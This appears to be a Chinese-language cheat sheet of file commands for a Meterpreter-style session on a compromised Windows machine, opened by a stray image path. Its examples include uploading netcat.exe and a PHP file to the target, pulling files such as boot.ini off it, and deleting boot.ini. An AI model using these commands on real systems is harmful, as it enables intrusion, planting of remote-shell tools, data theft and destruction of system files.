

# 基本操作命令 大部分linux命令都能够使用
cat c:\boot.ini#查看文件内容,文件必须存在
cd c:\\a.txt / cd:/a.txt   cd c:/Users/admin/Desktop 采用linux格式就不用了使用\\
Del / rm c:\boot.ini #删除指定的文件
文件上传 文件上传和下载是上传或者下载的是当前的默认目录
vi xx.ttx
upload /root/xx.txt xx.php 将本地文件上传到服务器 ，也可以更改上传后的文件名称
upload /root/Desktop/netcat.exe c:\ # 上传文件到目标机主上，如upload  setup.exe C:\\windows\\system32\
download nimeia.txt /root/Desktop/   # 下载文件到本机上如：download C:\\boot.ini /root/
edit c:\boot.ini  # 编辑文件  不能使用vi 但是打开以后编辑功能和vi一样
getwd#打印工作目录  / pwd
cd#更改本地目录
ls#列出在当前目录中的文件列表